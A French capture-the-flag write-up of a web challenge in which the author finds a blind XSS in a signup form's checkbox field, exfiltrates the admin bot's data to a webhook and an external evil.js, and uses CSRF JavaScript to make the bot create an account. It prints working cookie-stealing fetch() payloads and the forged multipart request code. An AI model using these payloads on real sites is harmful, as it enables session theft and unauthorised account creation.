


# Write up - Raas Recruitment

## Catégorie

Web

## Description

We found the APT403 recruitment site.

Tried to find a way to exploit their website  !

https://recruitment.cyberthreatforce-ctf.com/

## Solution

On arrive en premier sur une page qui semble nous laisser créer un compte :

Si l'on s'inscrit sur le site, on est redirigé vers une page qui nous confirme notre inscription, mais rien de plus. Etant donné que c'est la seule page auquel on a accès, il va falloir jouer avec pour voir ce que l'on peut faire.

On pourrait être tenté d'essayer des injections SQL, mais cela ne marche pas. 

(Note à part : Il était en réalité possible de réaliser une injection SQL, mais cela n'était pas prévu par l'auteur du challenge. Je ne détaillerai donc pas comment faire dans ce write-up.)

Je décide donc d'intercepter la requete avec burp, pour voir comment les paramètres sont passés : 

On remarque donc que le form est un multipart, et qu'il n'y a que les champs déjà visibles qui sont envoyés. Etant donné que nous n'avons pas d'autres points d'entrés, et que le challenge parait réaliste, je vais directemet jouer avec les paramètres, et un en particulier. 

Quand on réalise un site web et que l'on met une checkbox, la valeur (normalement) renvoyés sera soit "yes" soit "no". On peut donc penser qu'un développeur ne pense pas à vérifier la valeur envoyé. 

Note : A partir de cette étape, n'importe quel exploit se fera en blind puisque nous n'avons aucun retour.

J'ai tenté d'injecter les payloads suivantes :

- <code>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>
- <code>">'>< script>fetch("https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie)< /script></code>

Avec la dernière payload, la magie opère :

Il s'agit donc, pour la première partie de ce challenge, d'une blind xss !, par contre, il n'y a aucun coookie. En effet, avec un peu de reconnaissance, on trouve le endpoint "/admin", mais évidemment nous n'y avons pas accès. 

Notre blind xss va donc nous servir pour leak cette page à l'aide du bot ! Je vais donc utiliser la payload suivante :

Malheureusement, la payload ne passe pas, mais ce n'est pas à cause du bot, en effet, il doit y avoir une limite de caractère qui nous empêche d'envoyer une payload aussi conséquente. On va donc ici tout simple aller écrire ce javascript dans un fichier, le mettre sur un VPS, et utiliser la payload suivante :

- <code>">'>< script src="https://midnightflag.fr/evil.js">< /script></code>

Note : Il faut ici charger le javascript depuis un site utilisant "https", sinon cela ne marchera pas.

On envoi la payload et.... aucun retour. En effet, la page d'administration de l'admin doit être importante en taille, ce qui fait que l'URL sera trop long, et la requête n'aboutira pas. On va donc devoir utiliser substr, pour ne sélectionner qu'une partie de la page HTML :

On renvoi notre payload, et on obtient une réponse du bot :

Je vais ici vous épargnez la longue méthode pour leak toute la page, et seulement vous montrez la partie intéressante :

On voit donc un lien vers une partie cachée du site "/bingvxyyaknprxtgwexgldwdcrcqrfacDEV/", si l'on s'y rend, on observe une simple page de login :

Au vu de l'HTML au dessus, il va falloir que l'on se créer un compte. Mais, quelque chose m'a tapé dans l'oeil, en effet, après avoir leak l'HTML, j'ai remarque ce script javascript : "prcmSDAui9SeXxbuuaUKjEAJ5qIGY9B9vPFMwW19.js", je vais donc aller regarder ce script pour voir ce qu'il fait. Après un petit peu de déobfuscation, on observe cette partie qui semble faire la requête pour créer un compte "DEV":

<code><pre>
let _0x4b66bd = new FormData();
_0x4b66bd.append("username", trim($("#.username").val())) 
_0x4b66bd.append("password", trim($('.password').val())), _0x4b66bd.append('password2', trim($('.password2').val()))
$['ajax']({
    'type': "POST",
    'url': "hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",
    'data': _0x4b66bd,
    'cache': ![],
    'contentType': ![],
    'processData': ![],
    'context': this,
    'before': function() {},
    'success': function(_0x1935b7) {
        const _0x2c408d = _0x3d62c3;
        console[_0x2c408d(0x7d)](_0x1935b7), $(_0x2c408d(0x72))[0x0][_0x2c408d(0x71)]();
    }
});
</pre></code>

On a donc le lien du réel script PHP ou il faut taper pour créer son compte, et là un autre problème se pose : Il va falloir faire une CSRF grâce au bot, mais ce n'est pas un form classique, c'est un mutlipart/form-data. 

Je vais donc tenter une première payload pour que le bot créer mon compte :

<code><pre>
var formData = new FormData();
formData.append("username","Wortax");
formData.append("password","LpmJDIZADr45632!\*");
formData.append("password2","LpmJDIZADr45632!\*");
var xml = new XMLHttpRequest();
xml.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",true);
xml.send(formData)
</pre></code>

Ici, je reproduis la requête ajax que l'on a pu voir au dessus, donc je me dis que la payload est bonne étant donné que c'est ce qui est effectué côté admin. On attend donc que le bot passe et... le compte n'est pas créé, il va falloir utiliser une autre payload.

Au début de ce write-up, rappelez-vous que l'on a intercepté une requête avec burp, ce qui nous avait permis de voir que les paramtères étaient passés en multipart/form-data. On va donc de voir créer notre requête sous cette forme spécifique, pour que cela fonctionne :

<code><pre>
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="username"

Wortax
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password"

Wortax123!
-----------------------------350181559013892253873845607352
Content-Disposition: form-data; name="password2"

Wortax123!
-----------------------------350181559013892253873845607352--
</pre></code>

On intègre tout ca dans un script js :

<code><pre>
window.onload = function()
{
    var xhr = new XMLHttpRequest();
    xhr.open("POST","/admin/hurxR6IbyQGyZClNWc53qew9JwI8LavFYgAs8lk1.php",false)
    xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8");
    xhr.setRequestHeader("Accept-Language", "tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------350181559013892253873845607352");
    var body =
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"username\"\r\n\n" +
    "Wortax\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352\r\n" +
    "Content-Disposition: form-data; name=\"password2\"\r\n\n" +
    "Wortax123!\r\n"+
    "-----------------------------350181559013892253873845607352--\r\n";

    xhr.send(body)
}
</pre></code>

On envoi cela au bot et on essaye de se connecter :

Merci à l'auteur de ce challenge ! :)

## Flag

CYBERTF{L0ok_M0m_i_C4n_FouNd_XsS_aNd_3xpLoiT_It}